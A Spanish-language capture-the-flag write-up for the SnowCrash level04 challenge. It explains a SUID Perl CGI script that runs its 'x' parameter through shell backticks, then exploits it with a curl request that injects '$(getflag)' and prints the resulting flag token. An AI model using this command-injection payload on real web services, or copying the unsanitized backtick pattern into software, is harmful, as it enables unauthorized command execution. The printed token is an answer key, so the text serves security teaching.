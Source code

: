 1. **Buscando archivos**

    Encontramos otro archivo con permisos SUID
    ```bash
    level04@SnowCrash:~$ ll
    [...]
    -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl*
    [...]
    ```  
    Con el comando `strings` encontramos este es un script Perl que funciona como una aplicación web CGI (Common Gateway Interface) y tiene una vulnerabilidad de `inyección de comandos`
    ```bash
    level04@SnowCrash:~$ strings level04.pl 
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
    x(param("x"));
    ```   
    `localhost:4747`: Sugiere que este script se ejecuta en un servidor web local en el puerto 4747
    `Funcion vulnerable`: Define una función x que toma un argumento, lo guarda en $y
    Ejecuta el comando echo $y 2>&1 a través de backticks (`) que permiten ejecución de comandos shell

2. **Explotación**

    Esta vulnerabilidad de inyección de comandos es bastante directa de explotar. Como el script se ejecuta con los permisos del usuario flag04 (debido al bit SUID) y utiliza la entrada del usuario sin sanitizar en un comando shell, podemos inyectar nuestros propios comandos.
    - Revisamos si el servidor web esta corriendo
    ```bash
    level04@SnowCrash:~$ netstat -tuln | grep 4747
    tcp6       0      0 :::4747                 :::*                    LISTEN  
    ```  
    A continuacion inyectamos el comando `getflag`
    ```bash
    level04@SnowCrash:~$ curl 'http://localhost:4747/?x=$(getflag)'
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
    ``` 
    


